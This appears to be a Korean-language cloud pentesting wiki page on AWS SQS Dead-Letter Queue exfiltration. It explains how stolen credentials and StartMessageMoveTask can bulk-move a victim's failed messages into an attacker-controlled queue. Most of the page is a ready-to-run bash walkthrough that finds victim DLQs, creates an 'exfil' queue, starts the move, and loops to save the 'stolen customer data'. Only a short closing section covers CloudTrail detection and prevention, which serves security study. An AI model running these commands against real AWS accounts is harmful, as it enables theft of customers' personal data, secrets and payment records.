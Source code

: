 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

## 설명

`StartMessageMoveTask`을 사용하여 SQS 메시지 이동 작업을 악용해 피해자의 Dead-Letter Queue (DLQ)에 누적된 모든 메시지를 공격자가 제어하는 큐로 리디렉션하여 훔칩니다. 이 기법은 AWS의 정당한 메시지 복구 기능을 악용해 시간이 지나며 DLQ에 누적된 민감한 데이터를 유출합니다.

## Dead-Letter Queue (DLQ)란 무엇인가?

Dead-Letter Queue는 메인 애플리케이션에서 정상적으로 처리되지 못한 메시지들이 자동으로 전송되는 특수한 SQS 큐입니다. 이러한 실패한 메시지에는 종종 다음이 포함됩니다:
- 처리되지 못한 민감한 애플리케이션 데이터
- 오류 세부 정보 및 디버깅 정보
- Personal Identifiable Information (PII)
- API tokens, 자격 증명 또는 기타 비밀
- 비즈니스에 중요한 거래 데이터

DLQ는 실패한 메시지들의 "묘지" 역할을 하므로, 애플리케이션이 제대로 처리하지 못해 시간이 지나며 민감한 데이터가 누적되기 때문에 가치 있는 타깃이 됩니다.

## 공격 시나리오

**Real-world example:**
1. **E-commerce application**이 SQS를 통해 고객 주문을 처리한다.
2. **일부 주문이 실패한다** (결제 문제, 재고 문제 등) 그리고 DLQ로 이동된다.
3. **DLQ에 수주/수개월치의 실패한 주문이 누적된다**, 고객 데이터가 포함되어 있음: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **공격자가 SQS 권한이 있는 AWS 자격증명을 획득한다.**
5. **공격자가 DLQ에 수천 건의 민감한 실패 주문이 있음을 발견한다.**
6. **개별 메시지에 접근하려 시도하는 대신** (느리고 눈에 띔), 공격자는 `StartMessageMoveTask`를 사용해 모든 메시지를 자신의 큐로 일괄 전송한다.
7. **공격자는** 한 번의 작업으로 모든 과거 민감 데이터를 추출한다.

## 요구 조건
- 출발 큐는 어떤 큐의 RedrivePolicy에 의해 참조되는 DLQ로 구성되어 있어야 합니다.
- IAM 권한 (손상된 피해자 주체로 실행):
- DLQ(출발지)에서: `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- 대상 큐에서: 메시지 전달 권한(예: 피해자 주체로부터의 `sqs:SendMessage`를 허용하는 큐 정책). 동일 계정 내 대상의 경우 일반적으로 기본적으로 허용됩니다.
- SSE-KMS가 활성화된 경우: 출발지 CMK에 대해 `kms:Decrypt`, 대상 CMK에 대해 `kms:GenerateDataKey`, `kms:Encrypt`.

## 영향
네이티브 SQS API를 사용해 DLQ에 누적된 민감한 페이로드(실패 이벤트, PII, 토큰, 애플리케이션 페이로드)를 고속으로 유출할 수 있습니다. 대상 큐 정책이 피해자 주체로부터의 `SendMessage`를 허용하면 크로스-어카운트에서도 작동합니다.

## 악용 방법

- 피해자 DLQ ARN을 식별하고 실제로 어떤 큐에 의해 DLQ로 참조되고 있는지 확인합니다(어떤 큐든 괜찮음).
- 공격자가 제어하는 대상 큐를 생성하거나 선택하고 해당 ARN을 가져옵니다.
- 피해자 DLQ에서 당신의 대상 큐로 메시지 이동 작업을 시작합니다.
- 진행 상황을 모니터링하거나 필요 시 작업을 취소합니다.

### CLI 예제: E-commerce DLQ에서 고객 데이터 Exfiltrating

**시나리오**: 공격자가 AWS 자격증명을 탈취했으며, e-commerce 애플리케이션이 실패한 고객 주문 처리 시도를 포함하는 DLQ를 사용하는 SQS를 사용하고 있음을 발견했습니다.

1) **피해자 DLQ 발견 및 조사**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **attacker-controlled destination queue 생성**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **대량 메시지 탈취 실행**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **도난당한 민감한 데이터를 수집**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### 교차 계정 관련 주의사항
- 대상 큐는 피해자 주체가 `sqs:SendMessage`를 수행할 수 있도록 허용하는 리소스 정책을 가져야 합니다(및 사용되는 경우, KMS grants/permissions).

## 이 공격이 효과적인 이유

1. **Legitimate AWS Feature**: 내장된 AWS 기능을 사용하므로 악의적 활동으로 탐지하기 어렵습니다
2. **Bulk Operation**: 느리게 하나씩 접근하는 대신 수천 건의 메시지를 빠르게 전송할 수 있습니다
3. **Historical Data**: DLQs는 몇 주/몇 달에 걸쳐 민감한 데이터를 축적합니다
4. **Under the Radar**: 많은 조직이 DLQ 접근을 면밀히 모니터링하지 않습니다
5. **Cross-Account Capable**: 권한이 허용되면 공격자의 자체 AWS 계정으로 exfiltrate할 수 있습니다

## 탐지 및 방지

### 탐지
의심스러운 `StartMessageMoveTask` API 호출에 대해 CloudTrail을 모니터링하세요:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### 예방
1. **최소 권한**: `sqs:StartMessageMoveTask` 권한을 필요한 역할에만 제한하세요
2. **DLQs 모니터링**: 비정상적인 DLQ 활동에 대해 CloudWatch 경보를 설정하세요
3. **교차 계정 정책**: 교차 계정 액세스를 허용하는 SQS 큐 정책을 신중히 검토하세요
4. **DLQs 암호화**: 제한된 키 정책으로 SSE-KMS를 사용하세요
5. **정기적 정리**: 민감한 데이터가 DLQs에 무기한 쌓이지 않도록 하세요
